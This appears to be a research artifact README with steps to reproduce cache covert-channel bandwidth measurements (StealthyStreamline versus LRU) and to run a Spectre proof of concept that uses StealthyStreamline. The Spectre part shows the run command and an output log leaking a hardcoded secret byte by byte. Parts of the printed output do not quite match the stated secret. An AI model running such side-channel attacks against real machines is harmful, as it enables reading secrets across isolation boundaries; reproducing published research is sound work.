

# Figure 6: Bit rate of the StealthyStreamline attack and the LRU address-based attack 

The following experiment is performed on the given [ssh host](server.md) with Intel E5-2686v2 CPU. Unfortunately we cannot provide ssh access on other three Intel CPUs shown in the paper. A new machine needs additional calibration.

```
$ cd ${GIT_ROOT}/src/stealthy_streamline
```

## use the script to build all the code

```
$ build.sh
```

## measure the LRU attack bandwidth and error rate

```
$ cd ${GIT_ROOT}/src/stealthy_streamline
$ cd covert_channel_LRU_1thread_8way
$ bash run.sh
$ cd test
$ ../../process_error_rate_1thread/Error_rate_HW_LRU
```

This step will generate ```Error_rate_s_i.txt``` files. The last line of the file shows the error rate）
Currently, the threshold in process_error_rate_1thread is set for the fukushima machine. If we want to test on more machines, the threshold should be modified.


## measure the StealthyStreamline attack bandwidth and error rate

```
$ cd ${GIT_ROOT}/src/stealthy_streamline
$ cd covert_channel_stream_1thread_2bits_8way
$ bash run.sh
$ cd test
$ ../../process_error_rate_1thread/Error_rate_strem_2bit 
```

## plot the figure

```
$ cd ${GIT_ROOT}/src/stealthy_streamline/plot
$ python plot_error_rate.py
```
which will generate ```stealthy_streamline_error.png``` in the current directory. 

Which looks like



We can observe that StealthyStreamline (SS) in green has higher max bit rate than LRU in blue line.

## running Spectre attack with SteathyStreamline

StealthyStreamline can be used to commit the Spectre attack's state into caches efficiently, here we demonstrate it.
Given the secret ```The_Magic Words_are_12390+mish_Ossifrage``` (which is hardcoded in [```main.c```](../../src/stealthy_stream/spectre_stream/main.c)), we can use Spectre to exact the secret.


```
$ cd ${GIT_ROOT}/src/stealthy_streamline
$ ./SSspectre 
```

The output looks like the following. Where for each reading, one alphabet of the secret is extracted.

```
$ ./SSspctre 
Reading 39 bytes:
Reading at malicious_x = 0xffffffffffdff3c8... 
Unclear: 0x54 84=’T’ score=866 (second best: 0x54 � score=671)
Reading at malicious_x = 0xffffffffffdff3c9... 
Unclear: 0x68 104=’h’ score=995 (second best: 0x68 - score=781)
Reading at malicious_x = 0xffffffffffdff3ca... 
Unclear: 0x65 101=’e’ score=999 (second best: 0x65 m score=691)
Reading at malicious_x = 0xffffffffffdff3cb... 
Unclear: 0x5F 95=’_’ score=995 (second best: 0x5F - score=812)
Reading at malicious_x = 0xffffffffffdff3cc... 
Unclear: 0x4D 77=’M’ score=998 (second best: 0x4D - score=699)
Reading at malicious_x = 0xffffffffffdff3cd... 
Unclear: 0x61 97=’a’ score=1000 (second best: 0x61 � score=951)
Reading at malicious_x = 0xffffffffffdff3ce... 
Unclear: 0x67 103=’g’ score=998 (second best: 0x67 - score=712)
Reading at malicious_x = 0xffffffffffdff3cf... 
Unclear: 0x69 105=’i’ score=962 (second best: 0x69 � score=642)
Reading at malicious_x = 0xffffffffffdff3d0... 
Unclear: 0x63 99=’c’ score=997 (second best: 0x63 m score=706)
Reading at malicious_x = 0xffffffffffdff3d1... 
Unclear: 0x20 32=’ ’ score=1000 (second best: 0x20 - score=881)
Reading at malicious_x = 0xffffffffffdff3d2... 
Unclear: 0x57 87=’W’ score=999 (second best: 0x57 - score=762)
Reading at malicious_x = 0xffffffffffdff3d3... 
Unclear: 0x6F 111=’o’ score=908 (second best: 0x6F m score=820)
Reading at malicious_x = 0xffffffffffdff3d4... 
Unclear: 0x2D 45=’-’ score=786 (second best: 0x2D r score=714)
Reading at malicious_x = 0xffffffffffdff3d5... 
Unclear: 0x64 100=’d’ score=997 (second best: 0x64 - score=855)
Reading at malicious_x = 0xffffffffffdff3d6... 
Unclear: 0x73 115=’s’ score=906 (second best: 0x73 - score=860)
Reading at malicious_x = 0xffffffffffdff3d7... 
Unclear: 0x5F 95=’_’ score=997 (second best: 0x5F - score=826)
Reading at malicious_x = 0xffffffffffdff3d8... 
Unclear: 0x61 97=’a’ score=1000 (second best: 0x61 - score=671)
Reading at malicious_x = 0xffffffffffdff3d9... 
Unclear: 0x72 114=’r’ score=733 (second best: 0x72 - score=716)
Reading at malicious_x = 0xffffffffffdff3da... 
Unclear: 0x65 101=’e’ score=999 (second best: 0x65 - score=862)
Reading at malicious_x = 0xffffffffffdff3db... 
Unclear: 0x5F 95=’_’ score=999 (second best: 0x5F - score=787)
Reading at malicious_x = 0xffffffffffdff3dc... 
Unclear: 0x31 49=’1’ score=973 (second best: 0x31 - score=723)
Reading at malicious_x = 0xffffffffffdff3dd... 
Unclear: 0x32 50=’2’ score=994 (second best: 0x32 m score=799)
Reading at malicious_x = 0xffffffffffdff3de... 
Unclear: 0x33 51=’3’ score=951 (second best: 0x33 - score=838)
Reading at malicious_x = 0xffffffffffdff3df... 
Unclear: 0x39 57=’9’ score=985 (second best: 0x39 m score=826)
Reading at malicious_x = 0xffffffffffdff3e0... 
Unclear: 0x30 48=’0’ score=996 (second best: 0x30 - score=738)
Reading at malicious_x = 0xffffffffffdff3e1... 
Unclear: 0x2B 43=’+’ score=1000 (second best: 0x2B - score=858)
Reading at malicious_x = 0xffffffffffdff3e2... 
Unclear: 0x6D 109=’m’ score=857 (second best: 0x6D - score=739)
Reading at malicious_x = 0xffffffffffdff3e3... 
Unclear: 0x69 105=’i’ score=964 (second best: 0x69 - score=697)
Reading at malicious_x = 0xffffffffffdff3e4... 
Unclear: 0x73 115=’s’ score=882 (second best: 0x73 m score=838)
Reading at malicious_x = 0xffffffffffdff3e5... 
Unclear: 0x68 104=’h’ score=995 (second best: 0x68 - score=733)
Reading at malicious_x = 0xffffffffffdff3e6... 
Unclear: 0x5F 95=’_’ score=1000 (second best: 0x5F - score=676)
Reading at malicious_x = 0xffffffffffdff3e7... 
Unclear: 0x4F 79=’O’ score=996 (second best: 0x4F - score=632)
Reading at malicious_x = 0xffffffffffdff3e8... 
Unclear: 0x73 115=’s’ score=878 (second best: 0x73 - score=730)
Reading at malicious_x = 0xffffffffffdff3e9... 
Unclear: 0x2D 45=’-’ score=944 (second best: 0x2D s score=906)
Reading at malicious_x = 0xffffffffffdff3ea... 
Unclear: 0x69 105=’i’ score=850 (second best: 0x69 - score=733)
Reading at malicious_x = 0xffffffffffdff3eb... 
Unclear: 0x66 102=’f’ score=998 (second best: 0x66 - score=881)
Reading at malicious_x = 0xffffffffffdff3ec... 
Unclear: 0x6D 109=’m’ score=789 (second best: 0x6D - score=785)
Reading at malicious_x = 0xffffffffffdff3ed... 
Unclear: 0x61 97=’a’ score=999 (second best: 0x61 - score=907)
Reading at malicious_x = 0xffffffffffdff3ee... 
Unclear: 0x67 103=’g’ score=999 (second best: 0x67 - score=812)
```


